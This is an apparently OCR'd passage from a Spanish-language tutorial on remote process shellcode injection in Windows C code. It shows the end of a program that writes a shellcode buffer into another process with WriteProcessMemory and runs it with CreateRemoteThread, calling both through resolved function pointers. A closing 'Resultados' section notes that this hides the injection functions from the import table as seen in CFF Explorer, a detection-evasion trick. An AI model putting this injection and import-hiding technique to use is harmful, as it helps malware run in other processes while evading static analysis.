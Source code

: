 ```c
    }
    fprintf(stderr, "Alloc: 0x%p\n", hAlloc);

    SIZE_T bytes_escritos;
    if (_WriteProcessMemory(hProcess, hAlloc, shellcode, sizeof(shellcode), &bytes_escritos)) {
        fprintf(stderr, "WriteProcessMemory: %llu bytes\n", (DWORD)bytes_escritos);
    } else {
        fprintf(stderr, "Error al escribir la shellcode\n");
        CloseHandle(hProcess);
        return 1;
    }

    DWORD thread_id;
    HANDLE hThread = _CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)hAlloc, NULL, 0, &thread_id);
    if (hThread != NULL) {
        fprintf(stderr, "Thread ID: %u\n", thread_id);
    } else {
        fprintf(stderr, "Error al crear el hilo\n");
    }

    CloseHandle(hThread);

    return 0;
}
```

## Resultados

Si vemos la IAT usando CFF Explorer no observaremos el llamado a las funciones que inyectan la shellcode mas que GetModuleHandle, por lo que funciono bien
